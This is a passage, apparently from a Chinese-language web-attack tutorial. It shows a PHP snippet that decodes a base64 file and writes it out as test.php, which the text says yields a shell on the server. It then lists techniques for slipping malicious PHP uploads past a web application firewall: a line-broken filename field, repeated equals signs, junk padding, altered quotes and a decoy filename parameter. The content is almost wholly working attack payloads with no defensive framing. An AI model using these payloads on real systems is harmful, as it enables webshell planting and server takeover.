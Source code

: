 ```
<?php 

$path ="/xx/xxx/xx/1.php";

$str= file_get_contents($path);

$strs = base64_decode($str);

$test = fopen("./test.php","w");

fwrite($test,$strs);

fclose($test);
?>
```

然后再访问test.php即可getshell

## WAF拦截绕过
例如上述的方法以及

1.换行绕过检测

```
filename="1.p
hp"

file
name="1.php"

filename=
"1.php"

```

2.多个等号绕过检测

```
filename==="a.php"
```

3.增大文件大小，类似与sql注入的垃圾字符绕waf

4.去掉或替换引号绕过waf

```
filename=a.php
filename='a.php'
```

5.增加filename干扰拦截

```
filename=;filename="a.php"
```
